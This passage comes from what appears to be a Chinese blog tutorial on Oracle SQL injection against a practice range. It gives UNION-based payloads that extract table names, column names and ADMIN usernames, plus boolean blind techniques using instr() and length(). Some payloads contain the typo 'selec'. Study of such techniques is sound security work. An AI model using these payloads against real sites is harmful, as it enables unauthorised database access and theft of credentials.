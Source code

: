 2.别名法，再刚开始已经提过了，使用子查询对rownum进行取别名的方式来取数据

```
union selec 1,to_nchar(table_name),null,null from user_tab_columns
```

#### 查字段名

<br/> 利用user_tab_columns中的column_name字段就好了,获取其他字段名的方法还是用上面的办法,别忘了限制查哪个表的字段，不然你拿的是谁的字段都不知道

```
union select null,to_nchar(column_name),null,null from user_tab_columns where table_name='ADMIN'

```

<img alt="" height="104" src="https://img-blog.csdnimg.cn/4c3f35cdf61548e3be14acfe485fd840.png" width="1200"/><br/> 查数据

```
union selec 1,to_nchar(UNAME),null,null from ADMIN

```

这里就查刚才获取的UNAME字段的数据吧

### <img alt="" height="99" src="https://img-blog.csdnimg.cn/396300d22cfa4cdeac5929151d121761.png" width="905"/><br/> 布尔注入

### <br/> 字符操作函数

<br/> length(string),返回字符串的长度

instr(源字符,目标字符[,起始位置[,匹配序号]]),这个函数的作用是返回源字符中第一次匹配到目标字符的位置，如果没有的话就返回0，起始位置是设置开始匹配的位置

示例如下

```
-- 我们先查出第一个字符是什么，所以写1=,然后S这个位置就是可以用来枚举字符的位置了，这里面有两个S，但是它只会返回第一个匹配到S的位置
select * from dual where 1=instr('SYSTEM','S')
-- 我们查第二个字符,就改成2=,并且写上第三个参数为2，让他从第2个字符开始查
select * from dual where 2=instr('SYSTEM','Y',2)
-- 第三个，以此类推
select * from dual where 3=instr('SYSTEM','Y',3)
...........
```

## 靶场实战

<br/> 这里就以表名为例，注意我在where后面写了rownum=1,因为查出多条数据会报错的

利用instr()函数做题<br/> 先利用length()，测出表名的长度

```
and length((select table_name from user_tables where rownum=1))=1
```

<img alt="" height="288" src="https://img-blog.csdnimg.cn/a3d55b71a2be4a6baa9ff2f7f7af2d77.png" width="1145"/><br/> 表名长度为5
